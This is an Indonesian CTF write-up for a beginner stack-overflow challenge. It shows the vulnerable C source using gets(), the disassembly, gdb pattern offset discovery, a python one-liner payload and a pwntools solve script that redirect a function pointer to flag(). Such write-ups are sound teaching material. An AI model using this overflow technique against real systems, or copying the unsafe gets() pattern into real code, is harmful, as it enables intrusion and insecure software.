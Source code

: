 Lompat lompat terus melompat, terus melompat, terus melompat...

```bash
nc  103.157.96.13 5771
```
Download : https://mega.nz/#!Bt5CwTaL!nE-zv5XYfBnOTGoNNKsYSkl2SRBl7nh-TtqiDAPsRz0

#### Source

```c
#include <stdio.h>

void flag() {
	printf("Here is your flag : CTFR{REDACTED}");
}

int main() {
    int (*target)();
    char buff[32];
    gets(buff);

    if (target) {
    	printf("You almost there, now you need go to function flag() :D\n");
    	target();
    }

    return 0;
}
```

```bash
$ file chal3
chal3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=581558dbd6ccfa4af8e5663832dcec4fb6744e85, with debug_info, not stripped
```

Dari sourcenya, harus mengoveride variable `target` dengan alamat fungsi `void flag()`, cari dulu buffer offsetnya 

```asm
0x000000000040058f <+0>:     push   rbp
0x0000000000400590 <+1>:     mov    rbp,rsp
0x0000000000400593 <+4>:     sub    rsp,0x30
0x0000000000400597 <+8>:     lea    rax,[rbp-0x30]
0x000000000040059b <+12>:    mov    rdi,rax
0x000000000040059e <+15>:    mov    eax,0x0
0x00000000004005a3 <+20>:    call   0x400480 <gets@plt>
0x00000000004005a8 <+25>:    cmp    QWORD PTR [rbp-0x8],0x0
0x00000000004005ad <+30>:    je     0x4005c6 <main+55>
0x00000000004005af <+32>:    lea    rdi,[rip+0xca]        # 0x400680
0x00000000004005b6 <+39>:    call   0x400460 <puts@plt>
0x00000000004005bb <+44>:    mov    rdx,QWORD PTR [rbp-0x8]
0x00000000004005bf <+48>:    mov    eax,0x0
0x00000000004005c4 <+53>:    call   rdx
0x00000000004005c6 <+55>:    mov    eax,0x0
0x00000000004005cb <+60>:    leave  
0x00000000004005cc <+61>:    ret 
```

dari kode assembler, yang harus di override ada pada` <main+53> call   rdx` jadi set breakpoint dialamat itu untuk memeriksa apa sudah kereplace valuenya atau belum

```bash
gdb-peda$ b *main+53
gdb-peda$ pattern create 48
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAA'
gdb-peda$ r
gdb-peda$ pattern search
RDX+0 found at offset: 39
No register points to pattern buffer
Pattern buffer found at:
0x006022a1 : offset    0 - size   48 ([heap])
0x00007fffffffdabf : offset   32 - size   16 ($sp + -0x2b1 [-173 dwords])
0x00007fffffffdad0 : offset   17 - size   16 ($sp + -0x2a0 [-168 dwords])
0x00007fffffffdd71 : offset    0 - size   48 ($sp + 0x1 [0 dwords])
0x00007fffffffe238 : offset    0 - size   48 ($sp + 0x4c8 [306 dwords])
References to pattern buffer found at:
0x00007fffffffd9d8 : 0x006022a1 ($sp + -0x398 [-230 dwords])
0x00007fffffffdea0 : 0x00007fffffffe238 ($sp + 0x130 [76 dwords])
gdb-peda$ x/gx $rdx
0x4146414130414161:     Cannot access memory at address 0x4146414130414161
```

setelah di cari offset ada di `RDX+0 found at offset: 39` memberikan input sepanjang `0x30` atau `48` karakter berhasil mengoveride variable `target()` dibuktikan dengan ketika di cek nilai register `$rdx` ada pesan ` Cannot access memory at address 0x4146414130414161` artinya aplikasi tidak bisa memanggil fungsi yang ada di alamat `0x4146414130414161` = `aAA0AAFA` yang merupakan pattern input sebelumnya, selanjutnya cukup mengganti alamatnya menjadi alamat dari fungsi `flag()` dalam bentuk little endian. karena sistemnya 64 bit, jadi offset menjadi 40 karena 39 belum mengisi penuh `char buff[32]` jadi payloadnya

```bash
$ python2 -c "print 'A' * 40 + '\x77\x05\x40\x00\x00\x00\x00\x00\x0a'" | ./chal3
You almost there, now you need go to function flag() :D
Here is your flag : CTFR{REDACTED} 
```

kalo dengan pawntool jadinya

```python
from pwn import *

flag_addr = p64(0x400577);
padding = 'A' * 40 + flag_addr

r = remote('localhost', 5555)
#r = process('./chal3')
r.sendline(padding)
res = r.recvall()
print res
```

jika dijalankan hasilnya

```bash
$ python2 solve.py
[+] Opening connection to localhost on port 5555: Done
[+] Receiving all data: Done (147B)
[*] Closed connection to localhost port 5555
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw^E@^@^@^@^@^@
You almost there, now you need go to function flag() :D
Here is your flag : CTFR{REDACTED}
```